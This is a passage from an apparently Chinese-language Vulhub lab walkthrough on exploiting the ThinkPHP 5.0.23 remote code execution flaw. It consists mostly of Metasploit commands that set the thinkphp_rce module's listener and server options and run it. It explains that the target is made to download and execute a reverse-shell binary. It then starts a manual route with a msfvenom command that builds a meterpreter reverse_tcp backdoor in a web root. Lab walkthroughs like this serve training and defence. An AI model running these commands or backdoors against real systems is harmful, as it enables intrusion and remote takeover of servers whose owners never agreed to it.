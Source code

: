 设置 lhost

```
msf6 exploit(unix/webapp/thinkphp_rce) > set lhost kali.local
```

设置 lport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set lport 4444
```

设置 srvhost

```
msf6 exploit(unix/webapp/thinkphp_rce) > set srvhost kali.local
```

设置 srvport

```
msf6 exploit(unix/webapp/thinkphp_rce) > set srvport 8080
```

运行 thinkphp_rce

```
msf6 exploit(unix/webapp/thinkphp_rce) > run
```

![运行 thinkphp_rce](./../../../../images/Vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E8%BF%90%E8%A1%8C%20thinkphp_rce.png)

>MSF 会先生成一个反弹 shell 的可执行程序
>
>启动 8080 端口让目标主机可以访问下载这个程序
>
>通过漏洞执行命令：下载程序→添加执行权限→执行程序→删除文件

> 在目标主机执行这个可执行程序之后反弹 shell 给 MSF。

**手动**

生成后门

```
┌──(root㉿kali)-[~]
└─# msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=kali.local lport=4444 -f elf -o /var/www/html/reverse_tcp_shell
```
